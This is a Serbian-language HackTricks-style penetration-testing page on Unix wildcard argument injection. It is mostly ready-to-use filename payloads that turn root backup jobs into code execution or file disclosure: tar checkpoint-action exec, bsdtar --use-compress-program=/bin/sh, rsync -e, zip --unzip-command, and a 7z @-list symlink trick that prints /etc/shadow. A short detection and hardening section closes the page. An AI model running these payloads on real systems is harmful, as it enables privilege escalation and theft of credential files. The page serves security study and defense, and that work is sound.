 # Wildcards Spare Tricks

{{#include ../../banners/hacktricks-training.md}}

> Wildcard (poznat i kao *glob*) **injekcija argumenata** se dešava kada privilegovani skript pokreće Unix binarni fajl kao što su `tar`, `chown`, `rsync`, `zip`, `7z`, … sa necitiranim wildcard-om kao što je `*`.
> Pošto ljuska širi wildcard **pre** izvršavanja binarnog fajla, napadač koji može da kreira fajlove u radnom direktorijumu može da napravi imena fajlova koja počinju sa `-` tako da se tumače kao **opcije umesto podataka**, efikasno krijući proizvoljne zastavice ili čak komande.
> Ova stranica prikuplja najkorisnije primitivne tehnike, nedavna istraživanja i moderne detekcije za 2023-2025.

## chown / chmod

Možete **kopirati vlasnika/grupu ili dozvole bitova proizvoljnog fajla** zloupotrebom `--reference` zastavice:
```bash
# attacker-controlled directory
touch "--reference=/root/secret``file"   # ← filename becomes an argument
```
Kada root kasnije izvrši nešto poput:
```bash
chown -R alice:alice *.php
chmod -R 644 *.php
```
`--reference=/root/secret``file` je ubačen, uzrokujući da *svi* odgovarajući fajlovi naslede vlasništvo/dozvole `/root/secret``file`.

*PoC & alat*: [`wildpwn`](https://github.com/localh0t/wildpwn) (kombinovani napad).  
Pogledajte i klasični DefenseCode rad za detalje.

---

## tar

### GNU tar (Linux, *BSD, busybox-full)

Izvršite proizvoljne komande zloupotrebom **checkpoint** funkcije:
```bash
# attacker-controlled directory
echo 'echo pwned > /tmp/pwn' > shell.sh
chmod +x shell.sh
touch "--checkpoint=1"
touch "--checkpoint-action=exec=sh shell.sh"
```
Kada root pokrene npr. `tar -czf /root/backup.tgz *`, `shell.sh` se izvršava kao root.

### bsdtar / macOS 14+

Podrazumevani `tar` na novijim macOS (zasnovan na `libarchive`) *ne* implementira `--checkpoint`, ali i dalje možete postići izvršavanje koda sa **--use-compress-program** flagom koji vam omogućava da navedete spoljašnji kompresor.
```bash
# macOS example
touch "--use-compress-program=/bin/sh"
```
Kada privilegovani skript pokrene `tar -cf backup.tar *`, `/bin/sh` će biti pokrenut.

---

## rsync

`rsync` vam omogućava da prepravite udaljenu ljusku ili čak udaljeni binarni fajl putem komandnih opcija koje počinju sa `-e` ili `--rsync-path`:
```bash
# attacker-controlled directory
touch "-e sh shell.sh"        # -e <cmd> => use <cmd> instead of ssh
```
Ako root kasnije arhivira direktorijum sa `rsync -az * backup:/srv/`, injektovana zastavica pokreće vašu ljusku na udaljenoj strani.

*PoC*: [`wildpwn`](https://github.com/localh0t/wildpwn) (`rsync` mod).

---

## 7-Zip / 7z / 7za

Čak i kada privilegovani skript *defensivno* prefiksira wildcard sa `--` (da zaustavi parsiranje opcija), 7-Zip format podržava **datoteke sa listom datoteka** prefiksiranjem imena datoteke sa `@`. Kombinovanjem toga sa simboličkom vezom možete *ekstraktovati proizvoljne datoteke*:
```bash
# directory writable by low-priv user
cd /path/controlled
ln -s /etc/shadow   root.txt      # file we want to read
touch @root.txt                  # tells 7z to use root.txt as file list
```
Ako root izvrši nešto poput:
```bash
7za a /backup/`date +%F`.7z -t7z -snl -- *
```
7-Zip će pokušati da pročita `root.txt` (→ `/etc/shadow`) kao listu fajlova i odustati, **štampajući sadržaj na stderr**.

---

## zip

`zip` podržava flag `--unzip-command` koji se prosleđuje *verbatim* sistemskoj ljusci kada će se arhiva testirati:
```bash
zip result.zip files -T --unzip-command "sh -c id"
```
Injectujte zastavicu putem kreiranog imena datoteke i sačekajte da privilegovani skript za pravljenje rezervnih kopija pozove `zip -T` (testiranje arhive) na rezultantnoj datoteci.

---

## Dodatni binarni programi ranjivi na injekciju džokera (brza lista 2023-2025)

Sledeće komande su zloupotrebljavane u modernim CTF-ovima i stvarnim okruženjima. Teret je uvek kreiran kao *ime datoteke* unutar pisive direktorijuma koji će kasnije biti obrađen sa džokerom:

| Binarni program | Zastavica za zloupotrebu | Efekat |
| --- | --- | --- |
| `bsdtar` | `--newer-mtime=@<epoch>` → proizvoljni `@file` | Čitanje sadržaja datoteke |
| `flock` | `-c <cmd>` | Izvršavanje komande |
| `git`   | `-c core.sshCommand=<cmd>` | Izvršavanje komande putem git-a preko SSH |
| `scp`   | `-S <cmd>` | Pokretanje proizvoljnog programa umesto ssh |

Ove primitivne komande su manje uobičajene od klasičnih *tar/rsync/zip*, ali ih vredi proveriti prilikom lova.

---

## Detekcija i učvršćivanje

1. **Onemogućite globbing ljuske** u kritičnim skriptama: `set -f` (`set -o noglob`) sprečava ekspanziju džokera.
2. **Citat ili eskapiranje** argumenata: `tar -czf "$dst" -- *` nije *sigurno* — preferirajte `find . -type f -print0 | xargs -0 tar -czf "$dst"`.
3. **Eksplicitne putanje**: Koristite `/var/www/html/*.log` umesto `*` kako napadači ne bi mogli da kreiraju susedne datoteke koje počinju sa `-`.
4. **Najmanje privilegije**: Pokrećite poslove pravljenja rezervnih kopija/održavanja kao nepovlašćeni servisni nalog umesto root-a kad god je to moguće.
5. **Praćenje**: Elasticova unapred izgrađena pravila *Potencijalna ljuska putem injekcije džokera* traži `tar --checkpoint=*`, `rsync -e*`, ili `zip --unzip-command` odmah praćeno procesom deteta ljuske. EQL upit može biti prilagođen za druge EDR-ove.

---

## Reference

* Elastic Security – Pravilo Detektovana potencijalna ljuska putem injekcije džokera (poslednje ažurirano 2025)
* Rutger Flohil – “macOS — Injekcija džokera u tar” (18. decembar 2024)

{{#include ../../banners/hacktricks-training.md}}

